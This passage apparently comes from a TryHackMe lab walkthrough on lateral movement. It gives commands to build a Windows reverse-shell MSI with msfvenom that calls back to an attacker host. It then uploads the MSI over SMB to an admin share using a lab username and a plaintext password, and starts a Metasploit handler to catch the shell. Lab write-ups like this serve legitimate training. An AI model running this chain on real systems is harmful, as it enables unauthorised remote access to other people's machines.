         ![task4-ssh](./images/task4-ssh.png)

    * Create Payload
    
        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=5555 -f msi > myinstaller.msi
        ```

        ![task4-payload](./images/task4-payload.png)

    * Upload payload
    
        ```
        smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
        ```

        ![task4-upload](./images/task4-upload.png)

    * Start a handler to receive the reverse shell from Metasploit
    
        ```
        msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/shell_reverse_tcp; set LHOST lateralmovement; set LPORT 5555; exploit"
        ```

        ![task4-handler](./images/task4-handler.png)

    * Run powershell
    
        ![task4-powershell](./images/task4-powershell.png)
